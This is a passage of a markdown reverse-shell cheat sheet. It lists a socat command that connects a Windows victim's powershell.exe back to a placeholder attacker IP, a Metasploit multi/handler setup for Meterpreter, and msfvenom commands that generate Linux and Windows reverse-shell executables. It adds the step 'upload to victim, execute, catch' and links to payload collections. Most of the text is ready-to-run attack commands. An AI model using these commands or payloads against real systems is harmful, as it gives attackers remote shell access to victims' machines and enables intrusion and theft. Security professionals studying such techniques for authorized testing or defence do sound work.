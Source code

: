 **Reverse Shell (Victim - Windows)**

```bash
socat TCP:<ATTACKER-IP>:4444 EXEC:powershell.exe,pipes
```

✅ **Advantage:** More stable, better terminal handling.

---

### **3. Metasploit `multi/handler` (For Advanced Payloads)**

- Used for **staged payloads** (e.g., Meterpreter).
- **Auto-handles connections** and provides **post-exploitation modules**.

**Basic Example**

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR-IP>
set LPORT 4444
run
```

💡 **Best for:** Meterpreter, staged payloads, and automated post-exploitation.

---

### **4. Msfvenom (Payload Generator)**

- **Generates reverse/bind shell payloads** in many formats (exe, PHP, Python, etc.).
- Works alongside **`multi/handler`**.

**Basic Examples**

**Linux Reverse Shell (Executable)**

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<YOUR-IP> LPORT=4444 -f elf -o rev_shell.elf
```

**Windows Reverse Shell (EXE)**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR-IP> LPORT=4444 -f exe -o rev_shell.exe
```

📌 **Tip:** Upload to victim → Execute → Catch with **`multi/handler`**.

---

### **5. Other Useful Resources**

- [**PayloadsAllTheThings**](https://github.com/swisskyrepo/PayloadsAllTheThings) – Huge collection of shell payloads.
- [**PentestMonkey Cheatsheet**](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) – Quick reverse shell commands.
- **Kali’s Built-in Webshells** (**`/usr/share/webshells`**) – For web-based shells.
